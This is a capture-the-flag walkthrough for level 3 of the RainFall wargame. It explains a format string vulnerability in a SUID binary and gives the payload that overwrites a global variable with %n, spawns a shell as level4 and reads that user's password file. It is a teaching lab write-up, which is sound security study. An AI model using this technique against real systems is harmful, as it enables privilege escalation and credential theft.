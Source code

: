 # Level 3 Walkthrough

## Who am I?

```bash
level3@RainFall:~$ id
uid=2003(level3) gid=2003(level3) groups=2003(level3)
```

## Where am I?

```bash
level3@RainFall:~$ ll
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3*
```

We are in possession of a SUID binary owned by `level4`. Our objective is to exploit this binary to gain a shell as `level4` and read the corresponding `.pass` file.

---

## Program Behavior

The binary reads input from `stdin`, prints it, and exits:

```bash
level3@RainFall:~$ ./level3
hello
hello
```

We try providing a large input:

```bash
level3@RainFall:~$ python -c "print 'A' * 200" | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

There is no crash, even with 200 characters. Unlike the previous level which used the unsafe `gets()`, this binary uses `fgets()`, which safely limits input size.

---

## GDB Analysis

### Disassemble `main()`

```gdb
(gdb) disas main
```

```asm
0x0804851a <+0>: push %ebp
0x0804851b <+1>: mov %esp,%ebp
0x0804851d <+3>: and $0xfffffff0,%esp
0x08048520 <+6>: call 0x80484a4 <v>
0x08048525 <+11>: leave
0x08048526 <+12>: ret
```

The `main()` function simply calls `v()`.

---

### Disassemble `v()`

```gdb
(gdb) disas v
```

We identify three important things:

1. Input is read with `fgets()` (safe from classic buffer overflow), unlike the previous level which used `gets()`.
2. The input is printed using `printf(buffer)` — **format string vulnerability!**
3. A comparison checks if a global variable `m` at `0x0804988c` is equal to 64 (`0x40`). If true, it launches a shell.

This logic was confirmed by decompiling the binary using Ghidra (see `source/ghidra/v.c`).

---

## Format String Vulnerability

`printf(buffer)` is unsafe because the format string is entirely user-controlled. This lets us:

* Print stack contents with `%x`
* Write to arbitrary memory with `%n`

---

## Exploitation Strategy

### Step 1: Find offset on the stack

We inject 10 `%x` to see where our input lands:

```bash
level3@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x %x %x %x"' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078
```

We see that `AAAA` appears as `41414141` in hexadecimal, and it's the **4th** item on the stack. Therefore, we will use `%4$n` to write to the address placed as the 4th argument.

### Step 2: Inject address of `m` on the stack

```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c
```

We see `804988c` appear at position 4 confirmed. Since `printf` interprets the stack contents as integers or pointers, we had to inject the address in **little endian format** so that it’s correctly interpreted as `0x0804988c` on the stack.

### Step 3: Craft final payload

To exploit the vulnerability, we needed to:

* Identify the address to overwrite: `0x0804988c`, found from disassembly or decompilation.
* Determine the desired value: `64` (i.e. `0x40`) to pass the condition in the code: `if (m == 0x40)`.
* Discover that our input address appears as the 4th item on the stack (`%4$n`) through testing with multiple `%x`.
* Confirm that the input is copied via `fgets()` and used directly in `printf()`.

To write `64` to that address using `%n`, we must ensure that exactly **64 characters** are printed before `%4$n`. We use padding of 60 characters (`"A"*60`) plus the 4 bytes from the address.

To understand `%n`, consider this example:

```c
int written = 0;
printf("Hello world!%n", &written);
```

After executing, `written == 12`, because 12 characters were printed.

### Step 4: Build and launch the payload

```bash
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' > /tmp/exploit
```

Run it:

```bash
level3@RainFall:~$ cat /tmp/exploit | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
```

However, this doesn't give a shell. We must use `cat -` to keep stdin open:

```bash
level3@RainFall:~$ cat /tmp/exploit - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
```

Finally, we read the flag:

```bash
$ cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

Success.

---

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `asm_analysis.md`: GDB analysis of the binary
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)